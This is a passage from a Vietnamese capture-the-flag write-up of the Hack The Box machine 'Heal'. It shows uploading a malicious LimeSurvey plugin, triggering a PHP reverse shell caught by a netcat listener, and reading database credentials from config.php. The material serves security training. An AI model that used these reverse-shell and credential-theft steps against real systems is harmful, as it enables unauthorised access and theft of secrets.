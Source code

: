 Sau đó thì xoá file zip cũ và thực hiện zip lại 1 lần nữa.

Quay trở lại phần install plugin phía trên. Sau khi install, kiểm tra lại để chắc chắn plugin đã install thành công

![twelve](/assets/img/2025-01-07-HTB-Heal/12.webp)

Bật listener với port đã cấu hình ở các bước trước (tôi đang dùng 9001) và mở php revershell thủ công theo path `/upload/plugins/Y1LD1R1M/php-rev.php` trên trình duyệt.

```bash
┌──(neo㉿fs0c13ty)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.11.46] 38064
Linux heal 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 08:19:39 up 12:37,  0 users,  load average: 0.02, 0.05, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nghiên cứu về cây thư mục của Limesurvey trên github, tôi tìm thấy file chưa user:pass của db trong `application/config/config.php`

```php
return array(
        'components' => array(
                'db' => array(
                        'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;',
                        'emulatePrepare' => true,
                        'username' => 'db_user',
                        'password' => 'AdmiDi0_pA$$w0rd',
                        'charset' => 'utf8',
                        'tablePrefix' => 'lime_',
                ),

                 'session' => array (
                        'sessionName'=>'LS-ZNIDJBOXUNKXWTIP',
                        // Uncomment the following lines if you need table-based sessions.
                        // Note: Table-based sessions are currently not supported on MSSQL server.
```